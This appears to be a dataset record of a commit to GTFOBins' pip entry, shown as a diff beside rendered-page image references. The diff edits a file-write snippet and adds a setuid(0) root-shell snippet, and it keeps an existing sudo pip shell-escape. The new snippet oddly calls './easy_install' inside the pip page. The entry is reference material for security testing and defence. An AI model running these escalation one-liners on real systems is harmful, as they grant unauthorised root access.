

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide and 1400 px high, scrolled down 1402 px. Shown: the top 1372 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2495 px from its top, so only the background shows below that.

Commit message:
Use LFILE in easy_install and pip file-write function

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -50,8 +50,9 @@ functions:
   file-write:
     - description: It needs an absolute local file path.
       code: |
+        export LFILE=/tmp/file_to_save
         TF=$(mktemp -d)
-        echo 'open("/tmp/file_to_write","w+").write("DATA")' > $TF/setup.py
+        echo "open('$LFILE','w+').write('DATA')" > $TF/setup.py
         pip install $TF
   file-read:
     - description: The read file content is corrupted as wrapped within an exception error.
@@ -69,4 +70,9 @@ functions:
         TF=$(mktemp -d)
         echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         sudo pip install $TF
+  capabilities-enabled:
+    - code: |
+        TF=$(mktemp -d)
+        echo "import os; os.setuid(0); os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
+        ./easy_install
 ---
```
Also changed, not shown: _gtfobins/easy_install.md (+2 -1 lines).
